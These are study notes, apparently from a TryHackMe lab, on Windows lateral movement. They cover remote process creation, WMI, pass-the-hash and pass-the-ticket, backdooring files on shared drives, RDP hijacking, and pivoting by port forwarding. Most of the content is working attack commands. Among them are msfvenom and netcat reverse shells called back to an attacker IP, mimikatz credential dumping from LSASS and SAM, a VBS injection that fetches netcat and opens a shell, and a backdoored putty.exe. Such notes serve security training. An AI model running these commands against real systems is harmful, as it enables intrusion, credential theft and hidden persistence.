


- Is the group of techniques used by attackers to move around a network.
- Once an attacker gained access to a machine on the network, moving is essential for many reasons including
	- Reaching our goal as attackers.
	- Bypassing network restrictions in place.
	- Establishing additional points of entry to the network.
	- Creating confusion and avoid detection.
- When accessing a new machine, we try to elevate privileges and extract credentials if possible, and this is a loop.
- There are several ways for an attacker to move laterally. The simplest way is through standard administrative protocols like WinRM, RDP, VNC, or SSH to connect to other machines around the network.
- This approach can be used to emulate regular users' behavior somewhat as long as some coherence is maintained when planing where to connect with what account.
- ## *Administrators and UAC*
	- Knowing the difference between local accounts part of the local Administrators group and domain accounts part of the local Administrators group is essential.
	- By default local administrators won't be able to remotely connect to a machine and perform administrative tasks unless using an interactive session through RDP.
	- Windows will deny any administrative task requested via RPC, SMB or WinRM since such administrators will be logged in with a filtered medium integrity token, preventing the account from doing privileged actions.
	- The only local account that will get full privileges is the default Administrator account.
	- Domain accounts with local administration privileges won't have the same problem, and will have full administrative privileges.
	- This security feature can be disabled if desired.
	- Some of the lateral movement techniques fail because of using a non-default local administrator where UAC (User Account Control) is enforced.
- ## *Spawning Processes Remotely*
	- #### *Psexec*
		- Uses port `445/TCP (SMB)`, and the required group membership is `Administrators`.
		- Allows an administrator user to run commands remotely on any PC where he has access. Psexec is one of many Sysinternals Tools and can be downloaded through [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).
		- **The Process**
			- Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
			- Connect to the service control manager to create and run a service named `PSEXESVC` and associate the service binary with `C:\Windows\psexesvc.exe`.
		- To run psexec, we only need to supply the required administrator credentials for the remote host and the command we want to run `psexec64.exe \\<target-ip> -u Administrator -p <password> -i cmd.exe`.
	- #### *Remote Process Creation Using WinRM*
		- Uses ports `5985/TCP (WinRM HTTP)` or `5986/TCP (WinRM HTTPS)`, and required group membership is `Remote Management Users`.
		- WinRM is a web-based protocol used to send PowerShell commands to Windows hosts remotely.
		- To connect to a remote PowerShell session from the command line, use `winrs.exe -u:Administrator -p:<password> -r:target cmd`.
		- We can achieve the same PowerShell, but to pass different credentials, we will need to create a PSCredential object
			`$username = 'Administrator';`
			`$password = 'MyPass123';`
			`$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`
			`$credential = New-Object System.Management.Automation.PSCredential $username,$securePassword;`
		- Once we have our PSCredential object, we can create an interactive session using the Enter-PSSession cmdlet `Enter-PSSession -Computername TARGET -Credential $credential`.
		- PowerShell also includes the Invoke-Command cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a PSCredential object as well `Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}`.
	- #### *Remotely Creating Services Using SC*
		- Uses ports
			- `135/TCP, 49152-65535/TCP (DCE/RPC)`
			- `445/TCP (RPC over SMB Named Pipes)`
			- `139/TCP (RPC over SMB Named Pipes)`
		- Requires a membership in `Administrators` group.
		- Windows services can also be leveraged to run arbitrary commands since they execute a command when started.
		- Create a service on a remote host with sc.exe, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways
			- A connection attempt will be made using DCE/RPC.
				- The client will first connect to the Endpoint Mapper (EPM) at port 135 which serves as a catalog of available RPC endpoints and request information on the SVCCTL service program.
				- The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
			- If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).
		- We can create and start a service named `THMservice` using
			- `sc.exe \\TARGET create THMservice binPath= "net user <new-user> <password> /add" start= auto`
			- `sc.exe \\TARGET start THMservice`
		- To stop and delete the service, we execute
			- `sc.exe \\TARGET stop THMservice`
			- `sc.exe \\TARGET delete THMservice`
		- Instead of creating a user we can use a reverse shell and bind it to the service.
			- Create the shell using `msfvenom -p windows/shell/reverse_tcp -f exe-service lhost=<attacker-ip> lport=4444 -o myservice.exe`.
			- Use the breached credentials to upload the payload to the ADMIN$ share using `smbclient` with `smbclient -c 'put myservice.exe' -U <breached-username> -W ZA '//thmiis.za.tryhackme.com/admin$/' <breached-pass>`.
			- Set up a listener on the attacking machine using
				- `msfconsole`
				- `use exploit/multi/handler`
				- `set lhost lateralmovement`
				- `set lport 4444`
				- `set payload windows/shell/reverse_tcp`
				- `exploit`
			- This one liner does the same thing `msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set lhost lateralmovement; set lport 4444;exploit"`.
			- Since `sc.exe` doesn't allow us to specify credentials as part of the command, we need to use `runas` to spawn a new shell with breached user's access token.
			- Still we only have SSH access to the machine, so if we tried `runas /netonly /user:<breached-user> cmd.exe` the new command prompt would spawn on the user's session not ours.
			- To overcome this, we use `runas` to spawn a second reverse shell with the breached user access token `runas /netonly /user:<breached-user> "c:\tools\nc64.exe -e cmd.exe <attacker-ip> 4443"`.
			- Receive the reverse shell connection using `nc -lvp 4443`.
			- and finally proceed to create a new service remotely using `sc.exe`, associating it with the uploaded binary (payload)
				- `sc.exe \\thmiis.za.tryhackme.com create THMservice-<randnum> binPath= "%windir$\myservice.exe" start= auto`
				- `sc.exe \\thmiis.za.tryhackme.com start THMservice-<randnum>`
			- 
	- #### *Creating Scheduled Tasks Remotely*
		- Create and run scheduled tasks with `schtasks`, to create a task named `THMtask1`, use
			- `schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload> /sc ONCE /sd 01/01/1970 /st 00:00`
			- `schtasks /s TARGET /run /TN "THMtask1"`
		- `/sc ONCE` to run the task once at specified date and time `/sd` and `/st`.
		- Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.
		- Delete the task using `schtasks /S TARGET /TN "THMtask1" /DELETE /F`.
- ## *Moving Laterally Using WMI*
	- Windows Management Instrumentation is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.
	- WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.
	- #### *Connecting to WMI From PowerShell*
		- Before connecting, we need to create a PSCredential object with our user and password.
			- `$username = 'Administartor';`
			- `$password = 'Mypass123';`
			- `$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`
			- `$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`
		- We then establish a WMI session using either of the following protocols
			- **DCOM**
				- RPC over IP will be used for connecting to WMI.
				- This protocol uses port `135/TCP` and ports `49152-65535/TCP` just as `sc.exe`
			- **Wsman**
				- WinRM will be used for connecting to WMI.
				- This protocol uses ports `5985/TCP (WinRM HTTP)` or `5986/TCP (HTTPS)`.
			- To establish a session from PowerShell, use
				- `$Opt = New-CimSessionOption -Protocol DCOM`
				- `$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop`
				- The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol.
				- The option and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.
	- #### *Remote Process Creation using WMI*
		- Uses ports
			- `135/TCP, 49152-65535/TCP (DCERPC)`
			- `5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)`
		- Requires membership of the `Administrators` group.
		- We can remotely spawn a process from PowerShell by leveraging WMI, sending a WMI request to the Win32_Process class to spawn the process under the session we created before
			- `$command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";`
			- `Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}`
		- Notice that WMI won't allow you to see the output of any command but will indeed create the required process silently.
		- On legacy systems, the same can be done using `wmic.exe /usr:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"`
	- #### *Creating Services Remotely with WMI*
		- Uses ports
			- `135/TCP, 49152-65535/TCP (DCERPC)`
			- `5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)`
		- Requires membership of the `Administrators` group.
		- Create services with WMI through PowerShell. To create a service called `THMService2` use
			`Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{'
			`Name = "THMService2";`
			`DisplayName = "THMService2";`
			`PathName = "net user munra2 Pass123 /add";` or add a payload
			`ServiceType = [byte]::Parse("16");`
			`StartMode = "Manual"`
			`}`
		- Then, get a handle on the service and start it with
			- `$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"`
			- `Invoke-CimMethod -InputObject $Service -MethodName StartService`
		- Finally, stop and delete the service with
			- `Invoke-CimMethod -InputObject $Service -MethodName StopService`
			- `Invoke-CimMethod -InputObject $Service -MethodName Delete`
	- #### *Creating Scheduled Tasks Remotely with WMI*
		- Uses ports
			- `135/TCP, 49152-65535/TCP (DCERPC)`
			- `5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)`
		- Requires membership of the `Administrators` group.
		- Create and execute scheduled tasks by using some cmdlets available in Windows default installations
			- `$Command = "cmd.exe"`
			- `$Args = "/c net user munra22 aSdf1234 /add"` creates a user
			- `$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args`
			- `Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"`
			- `Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"`
		- Delete the scheduled task after it has been used with `Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"`
	- #### *Installing MSI packages through WMI*
		- Uses ports
			- `135/TCP, 49152-65535/TCP (DCERPC)`
			- `5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)`
		- Requires membership of the `Administrators` group.
		- MSI is a file format used for installers, if we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us.
		- Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI `Invoke-CimMethod -CimSession $Session -ClassNAme Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`
		- We can achieve the same for legacy system by using `wmic.exe /node:TARGET /user:DOMAIN\USER product call install PackageLocation=C:\Windows\myinstaller.msi`
		- **Steps**
			- Create a reverse shell using `msfvenom -p windows/x64/shell_reverse_tcp lhost=lateralmovement lport=4445 -f msi > myinstaller.msi`.
			- Copy the payload using SMB or any other method, `smbclient -c 'put myinstaller.msi' -U <breached-user> -W ZA '//thmiis.za.tryhackme.com/admin$/' <breached-pass>`.
			- Since its uploaded to admin$ share, it will be available at `C:\Windows\`.
			- Receive the reverse shell using `msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/shell_reverse_tcp; set lhost lateralmovement; set lport 4445;exploit"`.
			- Start a WMI session against THMIIS from PowerShell console
				- `$username = <breached-user>;`
				- `$password = <breached-pass>;`
				- `$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`
				- `$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`
				- `$Opt = New-CimSessionOption -Protocol DCOM`
				- `$Session = New-CimSession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop`
			- We then invoke the install method from the Win32_Product class to trigger the payload `Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`.
- ## *Use of Alternate Authentication Material*
	- Any piece of data that can be used to access a Windows account without actually knowing the user's password.
	- Possible because of how some authentication protocols work.
	- #### *NTLM Authentication*
		- **Process**
			- The client sends an authentication request to the server they want to access.
			- The server generates a random number and sends it as a challenge to the client.
			- The client combines his NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification.
			- The server forwards both the challenge and the response to the Domain Controller for verification.
			- The DC uses the challenge to recalculate the response and compares it to the received one, if they both match, the client is authenticated; otherwise, access is denied. The authentication result is sent to the server.
			- The server forwards the authentication result to the client.
		- The above process is for domain accounts, for local account, the server does the verification itself since the password hash is stored locally on its SAM.
		- **Pass-the-Hash**
			- As a result of extracting credentials from a host where we have attained administrative privileges (using mimikatz or similar tools), we might get cleartext passwords or hashes that can be easily cracked.
			- However, if we aren't lucky, we will end up with NTLM hashes.
			- If the Windows domain is configured to use NTLM authentication, we can pass the hash and authenticate without needing the password.
			- To extract NTLM hashes from local SAM
				- This method will only get local users on the machine, not domain users.
				- Transfer mimikatz to the target and run it using `.\mimikatz.exe`.
				- `privilege::debug`
				- `token::elevate`
				- `lsadump::sam`
			- To extract NTLM hashes from LSASS memory
				- Extracts any NTLM hashes for local users and and domain users that has recently logged onto the machine.
				- Transfer mimiktaz to the target and run it using `.\mimikatz.exe`.
				- `privilege::debug`
				- `token::elevate`
				- `sekurlsa::msv`
			- We can then use the extracted hashes to perform Pass-the-Hash attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command we like)
				- `token::revert`
				- `sekurlsa::pth /usr:<username> /domain:<domain-name> /ntlm:<ntlm-hash> /run:<command>` `sekurlsa::pth /usr:bob.jenkins /domain:za.tryhackme.com /ntlm:<hash> /run:"c:\tools\nc64.exe -e cmd.exe <attacker-ip> 5555`.
				- Notice we used `token::revert` to reestablish our original token privileges, as trying pass-the-hash with an elevated token won't work.
				- Receive the reverse shell using `nc -lvp 5555`.
			- Several tools in Linux have built-in support to perform Pass-the-Hash using different protocols.
				- Connect to RDP using PtH `xfreerdp /v:<target-ip> /u:<domain>\\<user> /pth:<ntlm-hash>`
				- Connect via psexec using PtH `psexec.py -hashes <ntlm-hash> <domain>/<user>@<target-ip>`
				- Connect to WinRM using PtH `evil-winrm -i <target-ip> -u <user> -H <ntlm-hash>`
	- #### *Kerberos Authentication*
		- **Process**
			- The user sends his username and a timestamp encrypted using a key derived from his password to the Key Distribution Center `KDC`; a service usually installed on the DC that handles ticket generation on the network.
			- The `KDC` will create and send back a `TGT`, allowing a user to request tickets to access specific services without passing their credentials to the services. Along with the `TGT`, a `Session Key` is sent, which will be used to generate the requests that follow.
			- The `TGT` is encrypted using the `krbtgt` account's password hash, so the user can't access its contents. It is important to know that the `TGT` contains a part of the `Session Key` in its contents, and the `KDC` doesn't store the `Session Key`, it can recover it by decrypting the `TGT`.
			- The user then sends his username and a timestamp encrypted using the `Session Key` along with the `TGT` and a Service Principle Name `SPN` which indicates the service and server name he intends to access. These are all sent to ask the `KDC` for a `TGS`, which gives the user access to a specific service.
			- `KDC` will then send a `TGS` and a `Service Session Key`, which will be used to authenticate to the service, to the user.
			- The `TGS` is encrypted using the `Service Owner Hash`. The Service Owner is the user or machine account under which the service runs.
			- The `TGS` contains a copy of the `Service Session Key` on its encrypted contents so that the Service Owner can access it by decrypting the `TGS`.
			- The `TGS` can then be sent to the requested upon service to authenticate and establish a connection. The service will use it's configured account's password hash to decrypt the `TGS` and validate the `Service Session Key`.
		- **Pass-the-Ticket**
			- To extract Kerberos tickets and session keys from LSASS memory using mimikatz, SYSTEM privileges are required.
				- `.\mimikatz.exe`
				- `privilege::debug`
				- `sekurlsa::tickets /export`
			- Both the ticket and its corresponding session key are required.
			- Mimikatz will extract any TGT and TGS available from the memory of LSASS process, but we are only interested in TGT as they can be used to request access to any service that the user is allowed to access.
			- Extracting `TGT`s will require administrator's credentials, and extracting `TGS`s will only need low-privileged account (only the ones assigned to that account).
			- After extracting the ticket, inject the tickets into the current session using `kerberos::ptt <ticket>`.
			- Check if the tickets were correctly injected using `klist` from CMD.
		- **Overpass-the-Hash / Pass-the-Key**
			- Similar to PtH but applied to Kerberos networks.
			- When a user requests a TGT, he sends a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either `DES` (disabled by default on current Windows versions), `RC4`, `AES128`, or `AES256`.
			- If we have any of those keys, we can ask the KDC for a TGT.
			- Obtain Kerberos encryption keys from memory by using
				- Start mimikatz using `.\mimikatz.exe`
				- `privilege::debug`
				- `sekurlsa::ekeys`
				- Depending on the encryption, we can run a reverse shell using netcat `sekurlsa::pth /user:<username> /domain:<domain> /<encryption>:<key> /run:"c:\tools\nc64.exe -e cmd.exe <attacker-ip> 5565`.
				- **NOTE: RC4 key is the same as the NTLM hash.**
				- Receive the shell using `nc -lvp 5565`.
- ## *Abusing User Behavior*
	- #### *Abusing Writable Shares*
		- Plant specific files in writable shares to force users into executing any payload and gain access to their machines.
		- For example, finding a shortcut to a script or executable file hosted on network.
			- This could be used by administrators to allow users to execute it without copying or installing the application to each user's machines.
			- Although the script/executable is hosted on a server, when a user opens the shortcut, the executable will be copied from the server to `%temp%` folder and executed on the device.
			- By changing the pointed `target` in the properties of the executable, we can point to our payload or even run netcat to open a reverse shell.
		- **Backdooring .vbs Scripts**
			- If the shared resource is a VBS script, we can put a copy of `nc64.exe` on the same share, and inject `CreatObject("WScript.Shell").Run "cmd.exe /c copy /Y \\<ip>\<share>\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker-ip> 1234", 0, True`
			- This will copy `nc64.exe` from the share to the user's `%tmp%` directory and send a reverse shell back to attacker when the user opens the shared VBS script.
		- **Backdooring .exe Files**
			- If the shared file is a Windows binary, for example `putty.exe`, we can download it and use `msfvenom` to inject a backdoor into it.
			- The binary will still work, but will run our payload silently.
			- `msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker-ip> lport=4444 -b "\x00" -f exe -o puttyX.exe`
			- Replace the executable in the share with our newly created one and use the `exploit/multi/handler` module to wait for the `meterpreter` shell.
		- **RDP Hijacking**
			- When an administrator uses RDP to connect to a machine and closes the RDP instead of logging off, his session will remain open on the server indefinitely.
			- If we have SYSTEM privileges on Windows Server 2016 and earlier, we can take over an existing RDP session without requiring a password.
			- If we have administrator access, we can get SYSTEM by a lot of methods, like `psexec.exe`
				- `PsExec64.exe -s cmd.exe`
				- List the existing sessions on a server use `query user`.
				- Any session with `Disc` state has been left open by the user.
				- We can take over active sessions, but the user will be forced out.
				- Connect to a session using `tscon <session-id> /dest:<our-admin-rdp-session-name>`.
- ## *Port Forwarding*
	- Most of the lateral movement techniques require specific ports to be available, in rea-world networks, administrators may have blocked some of these ports or have implemented segmentation around the network, preventing us from reaching `SMB`, `RDP`, `WinRM`, or `RPC` ports.
	- To go around this, we can use port forwarding techniques, using any compromised host as a jump box to pivot to other hosts.
	- It is expected that some machines will have more network permissions than others.
	- #### *SSH Tunneling*
		- Has built-in functionality to do port forwarding.
		- **Example**
			- Assume we have compromised a machine called `PC-1` (doesn't have to be administrator access) and would like to use it as a pivot to access a port on another machine that we cant directly access.
			- We'll start a tunnel from `PC-1` machine, acting as an SSH client, to our attacking machine, which will act as an SSH server.
			- The reasoning behind this is that Windows machines typically contains SSH client and not server.
			- Since we'll be making a connection back to our attacking machine, we'll create a user without access to any console for tunneling.
				- `useradd tunneluser -m -d /home/tunneluser -s /bin/true`
				- `passwd tunneluser`
			- **SSH Remote Port Forwarding**
				- Let's say the firewall policies are blocking the attacking machine from directly accessing port 3389 on the server.
				- Remote Port Forwarding allows us to take a reachable port from the SSH client (`PC-1`) and project it into a remote SSH server (attacking machine).
				- As a result, a port will be opened in the attacker machine that can be used to connect back to port 3389 in the server through the SSH tunnel.
				- `PC-1` will in turn proxy the connection so that the server will see all the traffic as if it was coming from `PC-1`.
				- 
				- **NOTE: We need port forwarding after we have compromised PC-1 because in a situation where we only have console access to PC-1, we won't be able to use any RDP client as we don't have GUI**
				- In case we want to run an exploit against a port that can't be reached directly, as our exploit may require a specific scripting language that may not be available at machines we compromise along the way.
				- Forward port 3389 on the server back to our attacking machine using the following on `PC-1` `ssh tunneluser@<attacker-ip> -R 3389:<Server-ip>:3389 -N`.
					- `-N` to prevent the client from requesting a shell since `tunneluser` doesn't have access to one.
					- `-R` to request port forwarding.
					- The first port 3389 indicates the port we will be opening on the SSH server (attacking machine).
					- The second port 3389 indicates the port that we'll be forwarding.
					- They don't have to match.
				- Once the tunnel is set and running, go to the attacker machine and RDP into the forwarded port to reach the server `xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword`.
			- **SSH Local Port Forwarding**
				- Allows us to pull a port from an SSH server into the SSH client.
				- This could be used to take any service available in our attacking machine and make it available through a port on `PC-1`.
				- That way any host that can't directly connect directly to the attacker's machine but can connect to `PC-1` will now be able to reach the attacker's services through the pivot host.
				- Allows us to run reverse shells from hosts from hosts that normally wouldn't connect back to us.
				- 
				- Forward port 80 from the attacking machine and make it available from `PC-1` using the following from `PC-1` `ssh tunneluser@<attacker-ip> -L *:80:127.0.0.1:80 -N`.
					- `-L` for local port forwarding.
					- `*:80` indicates the local socket used by `PC-1` to receive connections.
					- `127.0.0.1:80` remote socket to connect to from the attacking machine.
					- Loop-back is used in the second socket, as from the attacker's perspective, that's the host that holds the port 80 to be forwarded.
				- Since we'll be opening a new port on `PC-1`, we might need to add a firewall rule to allow for incoming connections.
				- Administrative privileges are needed for this `netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80`.
				- Once the tunnel is set up, any user pointing their browser to `http://<pc1-ip>:80` will see the website published by the attacking machine.
		- #### *Port Forwarding With Socat*
			- In situations where SSH isn't available.
			- One disadvantage is we have to transfer `socat` to the pivot host `PC-1`, making it more detectable.
			- Open port 1234 on a host and forward any connection we receive there to port 4321 on attacking machine `socat TCP4-LISTEN:1234,fork TCP4:<attacking-ip>:4321`.
				- The `fork` option allows `socat` to fork a new process for each connection received, making it possible to handle multiple connections without closing.
				- If we don't include it, `socat` will close when the first connection made is finished.
			- If we wanted to access port 3389 on the server using `PC-1` as a pivot as we did with SSH remote port forwarding, use `socat TCP4-LISTEN:3389 TCP4:<Server-ip>:3389`.
				- `socat` can't forward the connection directly to the attacker's machine as SSH did but will open a port on `PC-1` that the attacker's machine can then connect to.
			- Since a port is being opened on the pivot host, we might need a firewall rule to allow any connections to that port `netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389`.
			- To expose port 80 from the attacker machine so that it is reachable by the Server, use `socat TCP4-LISTEN:80,fork TCP4:<attacker-ip>:80`.
				- As a result, `PC-1` will spawn port 80 and listen for connections to be forwarded to port 80 on the attacking machine.
		- #### *Dynamic Port Forwarding and SOCKS*
			- For situations where we want to run scans against many ports of a host, or even many ports across many machines, all through pivot host.
			- Use the SSH client to establish a reverse dynamic port forwarding with `ssh tunneluser@<attacker-ip> -R 9050 -N`.
				- The SSH server (attacking machine) will start a SOCKS proxy on port 9050, and forward any connection request through the SSH tunnel, where they are finally proxied by the SSH client `PC-1`.
			- The interesting thing is, we can easily use any of our tools through the SOCKS proxy by using `proxychains`.
				- To do that we first need to make sure that `proxychains` is correctly configured to point any connection to the same port used by SSH for the SOCKS proxy.
				- The `proxychains` configuration file can be found in `/etc/proxychains.conf`.
				- At the end of the configuration file, a line that indicates the port in use for SOCKS proxying should be seen
					`[ProxyList]`
					`socks4 127.0.0.1 9050`
				- The default is 9050 but any port could be used as long as it matches the the one used when establishing the SSH tunnel.
				- Execute any command through the proxy using `proxychains curl http://pxeboot.za.tryhackme.com`.
				- **NOTE: Nmap might not work with SOCKS in some situations, and might show altered results.**